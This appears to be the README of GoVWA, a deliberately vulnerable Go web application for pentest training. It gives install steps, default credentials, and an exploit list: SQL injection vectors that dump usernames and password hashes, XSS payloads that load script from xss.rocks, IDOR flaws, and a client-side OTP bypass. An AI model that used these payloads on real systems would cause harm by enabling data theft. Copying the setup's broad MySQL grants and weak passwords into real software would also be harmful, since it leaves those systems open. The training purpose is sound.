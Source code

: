 # GoVWA
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fliorlevtov%2Fshiftleft-go-demo.svg?type=shield)](https://app.fossa.com/projects/git%2Bgithub.com%2Fliorlevtov%2Fshiftleft-go-demo?ref=badge_shield)


GoVWA (Go Vulnerable Web Application) is a web application developed to help the pentester and programmers to learn the vulnerabilities that often occur in web applications which is developed using golang. Vulnerabilities that exist in GoVWA are the most common vulnerabilities found in web applications today. So it will help programmers recognize vulnerabilities before they happen to their application. Govwa can also be an additional application of your pentest lab for learning and teaching.

This was formerly known as <https://github.com/0c34/govwa>, package name
`govwa`, however this doesn't sit well with how Go code is commonly
organised, therefore it was renamed here to
`github.com/ShiftLeftSecurity/shiftleft-go-demo`,
which is also where we store it on GitHub.

# How To Install GoVWA

## Dependencies

- Golang
- MySQL

Set up MySQL as you like, e.g. with MySQL 8 something like this might suffice to have a working account for GoVWA to use:

```
USE mysql;
CREATE USER 'govwa@'localhost' IDENTIFIED BY 'password';
GRANT ALL ON *.* TO 'govwa@'localhost';
FLUSH PRIVILEGES;
```

If successfully installed you would have a directory `go` in your home directory. That directory has three subdirectories (`bin`, `pgk`, `src`). This project should be cloned into `src/github.com/ShiftLeftSecurity/Helloshiftleft-internal`.

Using Go modules dependency resolution should be automatic, simply `GO111MODULE=on go build` should take care of updating the dependencies for you.

Otherwise run the following to install the remaining Go dependencies:

```
go get github.com/go-sql-driver/mysql
go get github.com/gorilla/sessions
go get github.com/julienschmidt/httprouter
```

## GoVWA config

Open the file `./confic/config.json` and update the relevant fields (probably `username` + `password`) according to your mysql installation. You will most likely also want to add a new database with `create database govwa`.

## Run GoVWA

`go run app.go`

Open `http://192.168.56.101:8082/` to access GoVWA and follow the setup instructions to create database and tables

GoVWA users:

|uname|password|
|-----|--------|
|admin|govwaadmin|
|user1|govwauser1|

# Exploits

1. SQLi 1 (`/sqli1`):

User input through cookie `Uid`. Injects user input into WHERE clause of SELECT statement.
Exemplary vector: `1 UNION SELECT 1, uname, pass, 4 FROM Users`

This gets the username and password hash of a given user from the DB.

2. SQLi 2 (`/sqli2`):

User input through url parameter `uid`. Injects user input into the same statement as 1.
Exemplary vector: `1 UNION SELECT 1, uname, pass, 4 FROM Users`

This gets the username and password hash of a given user from the DB.

Also: It is possible to extract other user's information by changing the uid.

3. XSS 1 (`/xss1`):

User input through search term input field. Any input given is rendered into a `<b>` tag without sanitation and therefore executed.
Example: `<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>`

Can also be used with POST.

4. XSS 2 (`/xss2`):

The url parameter `uid` is parsed into a script tag as part of an assignment. One can therefore call functions for example.
Example: `$.getScript("http://xss.rocks/xss.js")`

It is again possible to extract other user's info by changing the uid.

5. IDOR 1 (`/idor1`):

The form parameter `uid` can be used to alter profiles of other users. As long as the cookie `Uid` and the form field `uid` match the request is taken care of and changes are written to the db.

6. IDOR 2 (`/idor2`):

The vulnerability is the same as in `/idor1` but with and added "security" feature. One has to send the MD5 hash of the given uid in order to be allowed to write to other user's profiles.

Disclaimer: The code behaves somewhat weird by breaking if you change the number of characters in `name` or `city` without adding/removing the same amount of characters in `number`.

7. CSA (`/csa`):

No real functionality. Except a green/red bar popping up depending on the response from the backend. If you use a proxy to tamper with the response you get a green bar regardless of your input.

The correct OTP is a value that has the MD5 hash of `a587cd6bf1e49d2c3928d1f8b86f248b`.


## License
[![FOSSA Status](https://app.fossa.com/api/projects/git%2Bgithub.com%2Fliorlevtov%2Fshiftleft-go-demo.svg?type=large)](https://app.fossa.com/projects/git%2Bgithub.com%2Fliorlevtov%2Fshiftleft-go-demo?ref=badge_large)